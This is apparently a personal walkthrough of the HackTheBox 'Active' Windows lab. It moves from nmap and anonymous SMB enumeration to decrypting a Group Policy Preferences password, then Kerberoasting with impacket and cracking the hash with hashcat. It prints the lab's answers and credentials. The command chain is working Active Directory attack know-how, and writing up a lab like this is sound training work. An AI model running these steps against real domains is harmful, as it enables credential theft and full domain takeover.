






Active
Machine info

https://app.hackthebox.com/machines/148
- Difficulty: Easy
- OS: Windows
- Release date: 28 Jul, 2018
- Rooted on: 01 Jul, 2024
Foothold
Starting with nmap:
$ nmap -sCV -Pn -p- --min-rate=1000 -oN nmap/complete.nmap 10.129.1.223# Nmap 7.94SVN scan initiated Thu Aug 1 07:54:57 2024 as: nmap -sCV -Pn -p- --min-rate=1000 -oN nmap/complete.nmap 10.129.1.223
Increasing send delay for 10.129.1.223 from 640 to 1000 due to 55 out of 183 dropped probes since last increase.
Warning: 10.129.1.223 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.1.223
Host is up (0.16s latency).
Scanned at 2024-08-01 07:55:10 -03 for 184s
Not shown: 64319 closed tcp ports (conn-refused), 1193 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_ bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-08-01 10:57:04Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5722/tcp open msrpc Microsoft Windows RPC
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49157/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49158/tcp open msrpc Microsoft Windows RPC
49169/tcp open msrpc Microsoft Windows RPC
49173/tcp open msrpc Microsoft Windows RPC
49174/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 2:1:0:
|_ Message signing enabled and required
| p2p-conficker:
| Checking for Conficker.C or higher...
| Check 1 (port 44606/tcp): CLEAN (Couldn't connect)
| Check 2 (port 44198/tcp): CLEAN (Couldn't connect)
| Check 3 (port 32389/udp): CLEAN (Timeout)
| Check 4 (port 9947/udp): CLEAN (Failed to receive data)
|_ 0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
| date: 2024-08-01T10:58:04
|_ start_date: 2024-08-01T09:45:44
|_clock-skew: 0s
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 1 07:58:14 2024 -- 1 IP address (1 host up) scanned in 196.83 secondsFrom the scan, we find a lot of information about the machine, such as the version of the operating system, open ports, the domain name and also the fact that it’s running active directory and smb - which is noticeable by the 139 and 445 ports).
Q1: How many SMB shares are shared by the target?
smbclient can be used to attempt anonymous login on SMB.
$ smbclient -L \\active.htb -I 10.129.1.223 -N
R1: 7
Q2: What is the name of the share that allows anonymous read access?
Here, we can try accessing each one of the shares anonymously until one of the attempts doesn’t return an error
$ smbclient '//10.129.1.223/<SHARE-NAME>' -U "" -N 

R2: Replication
Q3: Which file has encrypted account credentials in it?
After getting access to the Replication share, we can navigate it searching for files. What I did was simply searching for any files, downloading them and inspecting each one of them in my own machine. Luckily, there wasn’t many of them and I eventually found the right one.

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
<Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
</User>
</Groups>R3: Groups.xml
Q4: What is the decrpyted password for the SVC_TGS account?
The file we previously found is generated by an old version of Windows GPP that contained a vulnerable feature. It stored user data using these Groups.xml files, which besides being accessible by any user, would contain this hash that used a publicly documented key for encryption, allowing anyone to decrypt it and get other user’s credentials.
On my solve, as I still didn’t know about the vulnerability, I spent a decent amount of time trying to figure out how to crack the hash with hashcat, which couldn’t identify the hash format.
Eventually, I googled “groups.xml password format”, which returned a couple of results that talked about GPP, and that led me into the HackTricks page on Windows LPE.
On the linked section, I found the explanation for the vulnerability I just described and discovered this script to decrypt the password.
$ gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
I found it interest to take a look at the script’s source code in order to understand the algorithm and the disclosed encryption key thing.
https://github.com/t0thkr1s/gpp-decrypt/blob/master/gpp-decrypt.py#L22
R4: GPPstillStandingStrong2k18
Here, I was kinda lost while trying to get a shell. As the output of nmap had a service similar to the WinRM one from the previous machines, running on port 47001, I kept trying to connect with evil-winrm for a long time, always getting the same error and wondering if I was doing something wrong. I then decided to take a peek at the write-up. At the point where I was, it said that we could use our acquired credentials to keep enumerating SMB, and suggested to run smbmap. This hint was enough to get back into doing some progress.
$ smbmap -r -g smbmap.out -H 10.129.1.223 -u SVC_TGS -p GPPstillStandingStrong2k18
Although it didn’t show any information that I thought to be useful to do what I wanted, I realized that I could simply use the SVC-TGS user to try looking into the other shares, specifically the ones that I now know that I have access to.
So I went back to smbclient:
$ smbclient '//10.129.1.223/Users' -U "SVC_TGS" --password="GPPstillStandingStrong2k18"At this point I realized that the Users share was simply the Users directory from Windows. The SMB shell is just more limited.
Privilege escalation
Q5: Which service account on Active is vulnerable to Kerberoasting?
This one, as it was close to the last task, I simply guessed it would be Administrator.
R5: Administrator
I then searched information about the Kerberoast attack and got to the HackTricks page.
Found out that there is an impacket script to perform it, called GetUserSPNs.py.
$ GetUserSPNs.py -request -dc-ip 10.129.1.223 active.htb/SVC_TGS -outputfile hashes.kerberoast
Q6: What is the plaintext password for the administrator account?
Cracking the hash with hashcat:
$ hashcat -a 0 hashes.kerberoast /usr/share/wordlists/rockyou.txt
R6: Ticketmaster1968
We can now use smbclient again to access the User share as Administrator, and therefore be able to access their home directory.

With that, we finish the machine. It was supposed to be an introduction to Kerberoast. I feel like guided mode kinda helped me too much here, but that doesn’t stop me from doing further research on the aspects of the chain.